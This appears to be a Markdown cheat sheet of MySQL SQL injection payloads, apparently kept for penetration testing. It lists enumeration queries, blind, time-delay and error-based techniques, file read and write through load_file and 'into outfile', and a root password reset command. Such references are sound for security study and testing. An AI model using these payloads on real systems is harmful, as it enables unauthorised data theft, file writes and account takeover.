 MySQL Payload
=====================================

- Version 
    - ``SELECT @@version``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT 1 # comment``
    - ``SELECT /*comment*/1``
- Space
    - ``0x9`` ``0xa-0xd`` ``0x20`` ``0xa0``
- Current User
    - ``SELECT user()``
    - ``SELECT system_user()``
- List User
    - ``SELECT user FROM mysql.user``
- Current Database
    - ``SELECT database()``
- List Database
    - ``SELECT schema_name FROM information_schema.schemata``
- List Tables
    - ``SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
- List Columns
    - ``SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
- If
    - ``SELECT if(1=1,'foo','bar');`` return 'foo'
- Ascii
    - ``SELECT char(0x41)``
    - ``SELECT ascii('A')``
    - ``SELECT 0x414243`` => return ``ABC``
- Delay
    - ``sleep(1)``
    - ``SELECT BENCHMARK(1000000,MD5('A'))``
- Read File
    - ``select @@datadir``
    - ``select load_file('databasename/tablename.MYD')``
- Blind
    - ``ascii(substring(str,pos,length)) & 32 = 1``
- Error Based
    - ``select count(*),(floor(rand(0)*2))x from information_schema.tables group by x;``
- Write File
    - ``union select 1,1,1 into outfile '/tmp/demo.txt'``
    - ``union select 1,1,1 into dumpfile '/tmp/demo.txt'``
    - dumpfile和outfile不同在于，outfile会在行末端写入新行，会转义换行符，如果写入二进制文件，很可能被这种特性破坏
- Change Password
    - ``mysql -uroot -e "use mysql;UPDATE user SET password=PASSWORD('newpassword') WHERE user='root';FLUSH PRIVILEGES;"``
